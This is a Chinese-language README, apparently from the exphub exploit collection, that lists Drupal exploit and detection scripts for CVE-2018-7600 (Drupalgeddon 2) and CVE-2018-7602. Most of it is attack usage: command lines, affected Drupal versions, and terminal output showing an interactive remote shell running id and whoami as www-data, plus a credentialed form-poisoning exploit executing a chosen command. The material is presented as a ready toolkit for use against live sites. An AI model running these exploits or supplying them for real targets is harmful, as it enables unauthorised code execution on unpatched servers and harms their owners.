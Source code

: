 # About Drupal
Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成。连续多年荣获全球最佳CMS大奖，是基于PHP语言最著名的WEB应用程序。截止2011年底，共有13,802位WEB专家参加了Drupal的开发工作；228个国家使用181种语言的729,791位网站设计工作者使用Drupal。著名案例包括：联合国、美国白宫、美国商务部、纽约时报、华纳、迪斯尼、联邦快递、索尼、美国哈佛大学、Ubuntu等。

# Vulnerability list
[**cve-2018-7600_cmd.py**](https://github.com/zhzyker/exphub/tree/master/drupal) Drupal Drupalgeddon 2 远程代码执行漏洞利用脚本[[使用]](https://freeerror.org/d/426)  
[**cve-2018-7600_poc.py**](https://github.com/zhzyker/exphub/tree/master/drupal) 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600  
[**cve-2018-7602_cmd.py**](https://github.com/zhzyker/exphub/tree/master/drupal) Drupal 内核远程代码执行漏洞利用脚本(需要账户密码)  
[**cve-2018-7602_poc.py**](https://github.com/zhzyker/exphub/tree/master/drupal) 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600 

# Readme
部分脚本文件使用说明，详细使用分析请参考[vulnerability-list](https://github.com/zhzyker/exphub/tree/master/drupal#vulnerability-list)中的[使用]
- VER: 漏洞影响版本，一般情况下不在影响范围的版本没有相关漏洞
- USE: 脚本文件使用说明，大部分写在了脚本里，执行即可见
- EXP: 脚本利用示例，以及执行效果
- DES: 部分特殊脚本文件的特殊描述

## CVE-2018-7600_cmd.py	Drupal Drupalgeddon 2 远程代码执行漏洞利用脚本
> USE:
> ```
> +----------------------------------------------------------------------+
> + DES: by zhzyker as https://github.com/zhzyker/exphub                 +
> +      Drupal Drupalgeddon 2 远程代码执行 CVE-2018-7600                +
> +----------------------------------------------------------------------+
> + USE: python3 <filename> <url>                                        +
> + EXP: python3 cve-2018-7600_cmd.py http://1.1.1.1:8080                +
> + VER: Drupal 6.x                                                      +
> +      Drupal 7.x < 7.58                                               +
> +      Drupal 8.3 < 8.3.9                                              +
> +      Drupal 8.4 < 8.4.6                                              +
> +      Drupal 8.5 < 8.5.1                                              +
> +----------------------------------------------------------------------+
> + DES: Shell仅能回显一行代码，多行代码结果查看http://xxxx/exphub.txt   +
> +----------------------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:$ python3 cve-2018-7600_cmd.py http://freeerror.org:8080
> [+] http://freeerror.org:8080/exphub.txt
> 
> Shell >>> id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> Shell >>> whoami
> www-data
> Shell >>> exit
> ```

## CVE-2018-7600_poc.py	该脚本可检测 CVE-2018-7602 和 CVE-2018-7600
> EXP:
> ```
> zhzy@debian:$ python3 cve-2018-7600_poc.py http://freeerror.org:8081
> 
> +------------------------------------------------------------------+
> +                           iDrupal                                +
> +                          by IAmG0d                               +
> +------------------------------------------------------------------+
> + USE: python3 <filename> <url>                                    +
> + EXP: python3 cve-2018-7602_poc.py http://freeerror.org:8081      +
> +------------------------------------------------------------------+
> + DES: 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600                 +
> +------------------------------------------------------------------+
> 
> [~] Checking the version of http://freeerror.org:8081/
> [+] Possibly vulnerable to CVE-2018-7600!
> [+] Possibly vulnerable to CVE-2018-7602!
> [0:)] Thank You For Using... Goodbye
> ```

## CVE-2018-7602_cmd.py	Drupal 内核远程代码执行漏洞利用脚本(需要账户密码)
> EXP:
> ```
> zhzy@debian:/debian/archives-tool/web-drupal$ python cve-2018-7602_cmd.py admin admin http://freeerror.org:8080 -c id
> ()
> +---------------------------------------------------------------------------------+
> +   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     +
> +                                   by pimps                                      +
> +---------------------------------------------------------------------------------+
> + USE: python3 <filename> <username> <password> <url> -c <command>                +
> + EXP: python3 cve-2018-7602_cmd.py admin admin http://1.1.1.1:8080 -c "id"       +
> + VER: Drupal 7.x < 7.59                                                          +
> +      Drupal 8.4 < 8.4.8                                                         +
> +      Drupal 8.5 < 8.5.3                                                         +
> +---------------------------------------------------------------------------------+
> + DES: CVE-2018-7602 Need Username Password                                       +
> +---------------------------------------------------------------------------------+
> 
> [*] Creating a session using the provided credential...
> [*] Finding User ID...
> [*] User ID found: /user/1
> [*] Poisoning a form using 'destination' and including it in cache.
> [*] Poisoned form ID: form-6iAq8Ou5pKFQqEZ4sh1A_zQI_5QMSC71Stp4ohaseW0
> [*] Triggering exploit to execute: id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> ```
